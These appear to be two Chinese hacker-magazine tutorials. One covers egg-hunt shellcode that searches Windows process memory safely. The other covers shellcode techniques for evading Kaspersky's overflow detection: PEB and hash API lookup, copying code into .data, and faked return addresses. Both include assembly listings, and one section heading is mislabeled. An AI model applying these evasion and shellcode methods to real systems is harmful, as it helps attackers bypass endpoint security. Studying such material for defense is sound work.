因此，我们必须实现对进程空间的安全搜索，最终找到实现功能的 ShellCode，并在那里安全着陆。对于这样 Egg-Hunt 的 ShellCode 的编写，有如下 3 个基本要求。
图1
图2

- 搜索程序的鲁棒性：这样的要求主要体现在搜索程序必须要有处理“非法地址”访问的能力，才能够安全地搜索进程地址空间，否则对无效地址的访问将导致被溢出进程的崩溃。
- 搜索程序的简洁性：汇编码的体积是编写搜索程序时需要考虑的一个非常重要的方面，因为绕过溢出环境对 Search Code 大小的限制是我们使用这种两段式 ShellCode 的原因。
- 搜索程序的高效性：溢出的时候，我们当然希望能够尽快跳转到 ShellCode 去进行我们希望的操作，否则留下一个不能得到及时更新的屏幕，将会是溢出特征的一个最好提示。

在以上 3 个对 Egg-Hunt 的要求中，程序的鲁棒性是最重要的，因为在执行对进程地址空间搜索的时候，非法的访问毕竟是我们最常遇到的问题。我们当然不希望由于搜索内存失败而造成程序的崩溃，使我们丧失了执行 ShellCode 的机会。

下面我们主要探讨一些在 Windows 平台下，常用的安全搜索内存空间的方法。

## 利用SEH机制安全搜索内存空间

Windows 系统中的 SEH 机制是大家在进行溢出攻击时常常利用的一种机制。在这里，我们在执行进程空间搜索之前首先注册一个异常处理函数，用它来捕获并完成对“非法地址访问”及各种“运行时异常”的处理，以提高搜索程序的鲁棒性，使我们能够顺利地找到进程空间中的 ShellCode。

为了对这样的方法的原理有更好的理解，我们再将 Windows 系统中异常处理方面的内容复习一下。

### 1）Windows的结构化异常处理（SEH）

Windows 在创建线程时，操作系统会为每个线程分配 TEB 结构，并且将 FS 段选择器指向当前线程的 TEB 数据结构（结构的定义可以参见参考资料）。

```c
typedef struct _NT_TIB {
  struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList;
  PVOID StackBase;
  PVOID StackLimit;
  PVOID SubSystemTib;
  union {
    PVOID FiberData;
    ULONG Version;
  };
  PVOID ArbitraryUserPointer;
  struct _NT_TIB *Self;
} NT_TIB;
```

偏移为 0 的 _EXCEPTION_REGISTRATION_RECORD 主要用于处理 SEH，因此我们使用 FS:[0] 就能够访问 SEH 了。其结构定义如下：

```c
_EXCEPTION_REGISTRATION struct {
  Prev    dd   ; 前一个 _EXCEPTION_REGISTRATION 结构
  Handler dd   ; 异常处理例程入口
_EXCEPTION_REGISTRATION ends
};
```

其中 Prev 指向前一个 _EXCEPTION_REGISTRATION 的指针，因此线程的异常处理例程就形成了一个链状结构。当系统处理异常时就查找异常处理链表，调用相应的异常处理函数执行对程序异常的处理。

##### 2）异常信息

当一个异常发生时，操作系统向异常处理的线程堆栈中压入 3 个结构，这 3 个结构是 EXCEPTION_RECORD、CONTEXT 和 EXCEPTION_POINTERS。

EXCEPTION_RECORD 结构包含了有关最近发生异常的详细信息，这些信息独立于 CPU。其结构如下：

```c
_EXCEPTION_RECORD STRUCT {
  +0 DWORD ExceptionCode      ; 异常代码
  +4 DWORD ExceptionFlags     ; 异常标志
  +8 struct EXCEPTION_RECORD* ; 指向另一个 EXCEPTION_RECORD 的指针
  +C PVOID ExceptionAddress   ; 异常发生的地址
  +10 DWORD NumberParameters  ; 与异常紧密的参数数量（0~15）
  +14 ULONG_PTR ExceptionInformation[EXCEPTION_MAXIMUM_PARAMETERS]
  ...
} EXCEPTION_RECORD;
```

其中，ExceptionCode 字段定义了产生异常的原因。图 2 即表示程序引发了一个 EXCEPTION_ACCESS_VIOLATION 异常，异常代码为 0xC0000005。查阅该异常代码后，我们知道程序读写了一个没有可读写属性的地址。

CONTEXT 结构包含了特定处理器的寄存器数据，系统使用 CONTEXT 结构来进行各种内部操作。该结构可参考 Winnt.h 的定义，在 X86 平台下该结构定义为 CONTEXT86，后面将直接用 CONTEXT 代指 CONTEXT86。由于该结构比较长，出于篇幅考虑，我只列出结构的部分成员。

```c
typedef struct _CONTEXT86 {
  ...
  ; 通用寄存器
  +9C DWORD Edi;
  +A0 DWORD Esi;
  +A4 DWORD Ebx;
  +A8 DWORD Edx;
  +AC DWORD Ecx;
  +B0 DWORD Eax;
  ; 控制寄存器
  +B4 DWORD Ebp;
  +B8 DWORD Eip;
  +BC DWORD SegCs;
  +C0 DWORD EFlags;
  +C4 DWORD Esp;
  +C8 DWORD SegSs;
  ...
} CONTEXT86;
```

CONTEXT 结构非常重要。通过修改 CONTEXT 结构中的成员，可以使程序能够在异常时执行相应的处理工作，使程序能够继续执行。在 Windows XP 系统中，系统调用 NTDLL.DLL 模块中的 KiUserExceptionDispatcher 函数来执行异常处理。该函数最终将程序中注册的异常处理函数的地址装入 ECX，然后调用执行。此时堆栈的分布情况如下：

```asm
Esp+0x0 -> *EXCEPTION_RECORD
Esp+0x4 -> *_EXCEPTION_REGISTRATION(简称 ERR)
Esp+0x8 -> *CONTEXT record
Esp+0xC -> *Param


```

如果注册的异常处理函数将 CONTEXT 结构中保存的 EIP 值修改到一个“安全的地方”，那么执行完异常处理函数后，程序将返回到“安全代码”中去执行。

下面的例子程序将在进行搜索内存的操作之前，向异常处理链表中注册一个异常处理函数，用于在发生地址访问错误的时候修正程序的执行路径，修改 EIP 的值为发生访问违例（执行内存比较）的下一条指令地址。这样程序就能够安全、顺利地进行完搜索内存的操作。

为了弄清楚异常发生时系统的状态，我们进行如下的跟踪分析。

在 OllyDBG 中打开程序 Seh.exe。由于搜索的起始地址为 0x200000，将会导致一个访问异常，因此我们在 OllyDBG 的命令窗口中输入“bp 0x7C9237BD”，在 Windows XP 系统将要调用异常处理函数时断下来观察堆栈的状态（Windows 2000 中是 0x77F8E43E）。此时程序的状态如图 3 所示。
此时 ESP 的值为 0x12FBF0，该地址指向 EXCEPTION_RECORD 结构，结构偏移为 0x0 处保存了异常代码 0xC0000005，偏移为 0xC 处保存了异常发生的地址 0x401017，该指令是我们执行模式匹配的指令 scasd。ESP+4（0x12FFBC）保存了指向下一个异常处理结构的指针，ESP+8（0x12FCF0）保存了指向 CONTEXT 结构的指针。该结构偏移为 0xB8 处保存了异常发生时 EIP 寄存器的值 0x401017，偏移为 0x9C 处保存了 EDI 寄存器的值 0x200000。CONTEXT 保存的各寄存器状态可参见图 4。
按下 F7 后，执行预定义的异常处理函数，该函数将修正 CONTEXT 中保存的 EIP 的值为指令“add ebx,01000h”在内存中的地址（0x0040101C）。当程序恢复执行时，将从该指令继续进行内存空间的搜索操作。修改后的 CONTEXT 状态可参见图 5。
通过对内存访问异常的处理，可以使 ShellCode 能够安全地执行搜索功能，最终找到我们的“Egg”。

本文附带的程序实际上只是一个用于说明的代码，由于没有判断异常产生的原因，因此在实际应用中有一定的问题。聪明的读者也许会发现，如果在 OllyDBG 中调试该程序会失败。仔细分析后我们发现，导致该程序调试失败的原因是执行单步跟踪时系统也会产生一个异常 EXCEPT_SINGLE_STEP（此时结构 EXCEPTION_RECORD 中保存的异常代码为 0x80000004），由于我们的异常处理程序不会进行区别处理，因此导致程序执行失败。

另外，由于 Windows XP 中对异常处理的安全性进行了增强，如果异常处理函数在堆栈中，系统即认为是不安全的，因此我们的异常处理例程不会得到执行。

#### 使用 IsBadReadPtr 函数安全搜索内存空间

IsBadReadPtr 是模块 Kernel32.dll 中导出的一个函数，其功能是用于判断进程是否拥有对指定内存地址段的读权限。如果具有对某段地址空间的读权限则返回 0，否则返回非 0。该函数原型如下：

```c
BOOL IsBadReadPtr(
    CONST VOID *lp,   // address of memory block
    UINT ucb          // size of block
);
```

使用这种方法进行搜索时，首先调用 API 函数 IsBadReadPtr 判断进程是否具有对指定地址范围的读取权限，如果可读则进行标志位判断操作，否则继续寻找下一个地址空间。

细心的读者也许已经注意到了，程序中有两次重复的“scasd,jnz search_loop”指令。这样做的目的主要是由于指令中出现过 0x50905090，因此我们将搜索标志设置为 8 字节，即两次重复的 0x50905090，以保证程序能真正找到 ShellCode，而不是匹配代码段中的标志字节后停下来。实际上，在使用 SEH 进行查找时也处理了类似的问题，在上一种方法中是使用以下指令来完成两次匹配的过程的。

```asm
mov ecx, 2h
repe scasd
```

另外，使用 IsBadReadPtr 进行搜索时，会感觉到搜索速度比较慢。我对此进行了跟踪，发现当访问没有读权限的空间时，调试器会提示“访问违例在 Kernel32 中，根据请求已忽略”，调试器会因此出现短暂的停顿，造成搜索速度要慢一些。查阅了一定的资料后，确认造成这个问题的原因是由于对内存地址访问的竞争引起的。

#### 使用 NtDisplayString 安全搜索内存空间

NtDisplayString 是 Windows NT、Windows 2000/XP 系统下提供的一个 Native API 函数，因此这种方法不适用于 Windows 9x 系统。系统内核用该函数将字符串输出到屏幕（Text-mode），系统蓝屏时输出到屏幕的字符就是通过该函数完成的。该函数原型如下：

```c
NTSYSAPI NTSTATUS NTAPI NtDisplayString(
    IN PUNICODE_STRING String
);
```

我们之所以能使用该函数用于执行安全内存空间搜索的主要原因是，该函数从唯一的一个参数中读取数据并且没有写操作。如果函数参数指向的地址不可读，那么函数将返回内存访问异常（0xC0000005）的错误代码。

另外需要说明的是，int 2E 是用于请求实现于 ntoskrnl.exe 内部 Native API 函数的软件中断。

NtDisplayString 调用的代码片段如下：

```asm
push edx
push 43h
pop eax
int 2Eh


```

随同 int 2Eh 传入的是 EAX 和 EDX 两个寄存器参数。EDX 保存的是待校验的地址指针值，EAX 中保存的是函数入口表的索引 ID。系统处理 int 2Eh 时，根据 EAX 的值确定每个调用将被分配到哪个函数，程序根据调用后的返回值是否为 0xC0000005 来判断该地址是否可读。搜索程序的其他流程与上一种方法基本相同，这里就不详细说了。

#### 总结

从上面描述的 3 种搜索内存的方法来看，使用 NtDisplayString 来搜索内存空间是速度最快、占用字节数最少、鲁棒性最好的方法。尽管该方法不能在 Windows 9x 下使用，但毕竟目前使用 Windows 9x 的用户已经很少了。笔者在实际编写 ShellCode 时，最后也选用了这种方法。

安全搜索内存的问题到此就算是成功解决了。通过对这个问题的研究，总结起来感觉还是学到了不少东西。

注：编译本文附带的演示文件时请使用 Masm32。
### 再谈绕过卡巴斯基

#### 主动防御系统

文/图 Cmdhz

看了发表在《黑客防线》杂志上的 gyzy 大虾写的《基于栈指纹检测缓冲区溢出的一点思路》一文，让小弟明白了卡巴在做缓冲区溢出主动防御的技术原理与实现方法。同时，gyzy 还提到了绕过卡巴的主动防御的方法，在对付强大的卡巴时，兄弟们在做溢出的时候也多了几招。几天后，czy 在安焦上发表了《点评“基于栈指纹检测缓冲区溢出的一点思路”》，文中也提到了一些绕过卡巴的技术与方法。看来对这个问题感兴趣的高手还不少。小弟我将这些知识与技术消化后加以整理，加上以前自己摸索出来的一些方法与体会，综合成了这篇文章，希望能够对大家有所帮助。

有关卡巴斯基等个人安全套装产品主动防御的原理就不啰嗦了，还是去看 czy 的文章吧。需要补充说明的是，实际上卡巴在做返回地址检查的时候，除了检测返回地址是否在栈中，还会检测返回地址是否在进程的堆空间里。如果检测到函数将要返回到堆中执行，那么卡巴依然会弹出报警窗口，只是报警窗口给出的提示与栈溢出稍有不同而已，如图 1 所示。
图1

本文所附的示例代码 ShellCode1.c 及 ShellCode2.c 能证明这一点。这两个文件的主要区别是：ShellCode1.c 创建一个新堆申请一块空间后将 ShellCode 复制到该堆空间中执行；ShellCode2.c 是直接在进程的默认堆中申请一块空间将 ShellCode 拷贝到该空间执行。这样做的目的是使卡巴对堆溢出类型的攻击也能够进行检测。

本文下面主要集中讲解一下绕过卡巴斯基主动防御的 ShellCode 的编写技巧与方法。

#### 不使用被主动防御系统 Hook 过的函数

最简单的办法就是在编写 ShellCode 时尽量不调用 GetProcAddress 和 LoadLibrary 函数。Kernel32.dll 与 Ntdll.dll 是进程启动时必须加载的两个模块。在 Win32 系统中，Kernel32.dll 是 Windows 系统中非常重要的动态链接库文件，它提供了系统的内存管理、数据输入输出操作等 API 函数。因此，用来编写 ShellCode 的 API 函数基本都集中在该 DLL 文件中。使用该动态链接库导出 API 的函数已经能够完成新建账号、复制文件执行等功能 ShellCode 的编写要求。使用这种方法时，由于我们不能使用 GetProcAddress 来直接获取函数 API 地址，在定位其他要使用的 API 函数地址时，可以将待定位的函数名与 DLL 模块 Export Directory 中找到的函数名进行匹配。当然，最好是先求得待定位函数名的 Hash 值，然后执行 Hash 值比较的方法进行查找。这样做不仅能降低 ShellCode 编写的复杂度，而且将函数名都映射为 4 字节编码也大大减少了 ShellCode 的体积。示例代码 ShellCode3.c 就是不调用以上特征函数，直接进行 Hash 值匹配定位函数地址，向系统添加管理员账号的例子。

如果我们的 ShellCode 中要使用其他 DLL 模块中导出的 API 函数，而我们又不能调用 LoadLibrary 来定位该模块基址怎么办呢？此时可以通过 PEB 结构的 0x0C 偏移处指向的 PEB_LDR_DATA 结构来定位该模块地址。该结构有 3 个成员列表入口，包含了进程加载到内存空间的所有动态链接库信息。这样，如果我们需要使用与网络有关的 API 函数，那么就可以在 PEB 中定位到 WS2_32.dll 模块，然后再按照前述方法查找 Socket 等函数地址。当然，如果进程没有加载过我们要使用的 DLL 模块，那么就无法对模块地址进行定位了，这也是使用这种方法的缺陷。示例代码 ShellCode1.c 中就是先定位了 Ntdll 模块地址，然后再查找到该模块中的堆分配函数 RtlAllocateHeap 的例子。

#### 将代码复制到程序的 Data 中再跳转执行

在以前编制漏洞溢出程序的实践中，笔者实际上一直在使用一种绕过卡巴等溢出检测系统的办法：获取对 CPU 的控制权后，首先找到一块可写可执行的内存空间，然后将 ShellCode 搬移到该地址空间后再跳转执行。当调用 GetProcAddress 和 LoadLibrary 函数时，卡巴将认为函数的返回地址位于一个正常的地址范围内，于是自然为我们的 ShellCode 开出了通行证。

通常情况下，对于工作在 Ring3 的应用程序来说，.text 段是不可写的，于是我们将目光转向可执行程序的 .data 段。在 Win32 系统中，磁盘文件中的对齐单位（200h，512 Byte）要小于内存对齐单位（1000h，4K Byte）。因此，一般而言可执行文件映射到内存后总有一段空闲空间，我们“借用”该空间后并不会破坏原有的文件数据。应用程序 .data 段的内存地址空间分布如图 2 所示。
图2

从 OllyDbg 中可以看出 Demo 程序的 .data 段从地址 0x407000 开始，自地址 0x407380 之后，.data 段内容基本上为 0。示例代码 ShellCode4.c 首先从模块 Kernel32.dll 中定位导出的、在 ShellCode 功能实现部分需要使用的 API 函数，并保存在以 ESI 指示的一段栈空间中。复制函数首先保存待复制代码起始地址，然后复制已定位好的 API 函数地址，再复制 ShellCode 的功能代码，最后跳转到复制好的 ShellCode 中执行。具体过程我就不讲解了，结合程序中的注释，相信大家很快就能看懂，完成的代码请看示例代码 ShellCode4.c。

```asm
mov dword ptr [esi+_BUFF], 0x407380
// 复制代码的目的地址
call MEMCPY_CODE
// 编写实现功能的 ShellCode 汇编代码
mov esi, dword ptr [esi+_BUFF]
push 00003233h
push 72657375h
push esp // 将 "User32" 字符串入栈
call dword ptr [esi+BUF_LOADLIBRARYA]
// 调用 LoadLibraryA("User32")
mov dword ptr [esi+BUF_USER32], eax

mov ebx, eax
push 0x0041786f
push 0x42656761
push 0x7373654D // MessageBoxA
push esp
push ebx
call dword ptr [esi+BUF_GETPROCADDRESS]
// 调用 GetProcAddress 函数
mov dword ptr [esi+BUF_MESSAGEBOXA], eax

push 216fh
push 6c6c6548h // Hello!
mov dword ptr [esi+BUF_HELLO], esp

push 0000007Eh
push 7E7E7E7Ah
push 68646D43h
push 7E7E7E7Eh // ~~~~Cmdhz~~~~
mov dword ptr [esi+BUF_CMDHZ], esp

push 0
push dword ptr [esi+BUF_HELLO]
push dword ptr [esi+BUF_CMDHZ]
push 0
call dword ptr [esi+BUF_MESSAGEBOXA]
// 调用 MessageBox 函数

push 0
call dword ptr [esi+BUF_EXITPROCESS]
// 调用 ExitProcess 退出进程
// 编写实现功能的 ShellCode 汇编代码结束
MEMCPY_CODE:
pop eax
mov dword ptr [esi+_FUNCSTART], eax
// 保存待复制代码起始地址
push esi
mov ecx, FUNCNUMBER
```

```asm
// 拷贝将要使用的 API 函数地址
mov edi, dword ptr [esi+_BUFF]
lea esi, dword ptr [esi+_LOADLIBRARYA]
rep movs dword ptr [edi], dword ptr [esi]
pop esi

push esi // 复制实现功能的 ShellCode 代码
mov ecx, SCLENGTH1
mov esi, dword ptr [esi+_FUNCSTART]
shr ecx, 2
rep movs dword ptr [edi], dword ptr [esi]
pop esi
push esi
mov ecx, SCLENGTH1
// 避免指令字节没有按照 4 字节对齐的情况
and ecx, 0x3
rep movs byte ptr [edi], byte ptr [esi]
pop esi
mov eax, dword ptr [esi+_BUFF]
add eax, 4*3
// 跳过 API 函数地址占用的空间
jmp eax


```

这种方法的缺点是：可能由于程序没有加载到默认内存地址而造成 .data 段在内存中的地址不固定，从而造成写入 .data 段空间失败。

#### 将代码复制到程序的 .data 中再跳转执行

Czy 在《点评“基于栈指纹检测缓冲区溢出的一点思路”》一文中提到的绕过方法很有特点，作者经过一番调试后将原理阐述如下。

我们知道，在进行函数调用时堆栈的分布情况如图 3A 所示。当我们在 ShellCode 中调用 GetProcAddress 时，如果在函数真实返回地址之前插入一个位于 Kernel32.dll 模块地址空间范围内的地址 B，此时函数调用时堆栈的分布情况如图 3B 所示。那么主动防御系统在进行检测时，将认为本次调用为一个正常 API 调用，从而顺利拿到了卡巴颁发给 ShellCode 的通行证。当调用结束执行流返回到地址 B，而地址 B 处保存的是 ret 指令，那么程序将再一次执行返回操作，将正确返回到地址 A 处继续执行。
在 Kernel32.dll 的导出函数中有一个异常简单的导出函数 GetCurrentProcess，反汇编显示该函数只有以下两条语句，如图 4 所示。
图4

我们就使用 GetCurrentProcess 函数地址向下偏移 3 byte 处的地址作为地址 B 来控制程序的跳转。在程序实现时，我使用了一个技巧：先执行“call FUNC1”，在不改变程序流程的情况下向栈中压入当前 EIP 的值，`add dword ptr [esp], 0xD` 指令修改该压入的返回地址值为正确的函数返回地址。在准备好函数参数后，直接 `jmp` 到函数地址处执行。完成的代码请看示例代码 ShellCode5.c。

```asm
// 编写实现功能的 ShellCode 汇编代码
push 00003233h
push 72657375h   // 将 "User32" 字符串入栈
mov dword ptr [esi+_USER32STR], esp

call FUNC1
FUNC1:
add dword ptr [esp], 0xD
// 修改函数返回地址
push dword ptr [esi+_USER32STR]
push dword ptr [esi+_GETCURRENTPROCESS]
// 压入伪造的返回地址
jmp dword ptr [esi+_LOADLIBRARYA]
// 调用 LoadLibraryA("User32")
mov dword ptr [esi+_USER32], eax

push 0x0041786f
push 0x42656761
push 0x7373654D   // MessageBoxA
mov dword ptr [esi+_MESSAGEBOXSTR], esp

call FUNC2
FUNC2:
add dword ptr [esp], 0x10
// 修改函数返回地址
push dword ptr [esi+_MESSAGEBOXSTR]
push dword ptr [esi+_USER32]
push dword ptr [esi+_GETCURRENTPROCESS]
// 压入伪造的返回地址
jmp dword ptr [esi+_GETPROCADDRESS]
mov dword ptr [esi+_MESSAGEBOX], eax

push 0000007Eh
...
```

```asm
push 7E7E7E7Ah
push 68646D43h
push 7E7E7E7Eh   // "~~~Cmdhz~~~"
mov dword ptr [esi+_CMDHZ], esp

push 216Fh
push 6C6C6548h
mov dword ptr [esi+_HELLO], esp

push 0
push dword ptr [esi+_HELLO]
push dword ptr [esi+_CMDHZ]
push 0
call dword ptr [esi+_MESSAGEBOX]
// 调用 MessageBox 函数

push 0
call dword ptr [esi+_EXITPROCESS]
// 调用 ExitProcess 退出进程
```

在上面的代码中，细心的读者也许会问，为什么修改该压入的函数返回地址时加的值是 0xD 呢？其实这个值是压入函数参数及跳转指令机器代码的字节长度。如图 5 所示，压入堆栈中的返回地址是 0x10FFEC，而函数在执行完 LoadLibrary 后正确的返回地址是 0x10FFF9。两个地址的差值为 0x10FFF9 - 0x10FFEC = 0xD，所以修正返回地址时应该加上 0xD。调用 GetProcAddress 时修正返回地址的计算方法与此相似。


图5

有关绕过主动防御的方法就介绍到这里了。读者会发现最后一种方法与 gyzy 大虾所提出的方法道理是一样的，只是在实现上不同罢了。在这种方法里，是不是可以在内存中找一条“jmp esp”指令来代替 GetCurrentProcess 的返回地址呢？取 GetCurrentProcess 函数地址的方法有什么好处？还有为什么不用 GetCurrentProcess 函数的地址直接作为返回地址呢？这些问题就留给聪明的你吧！最后说一下，编译本文附带的演示文件时可以采用方法：“cl filename.c”。

【本文涉及的代码（程序），请见随书光盘】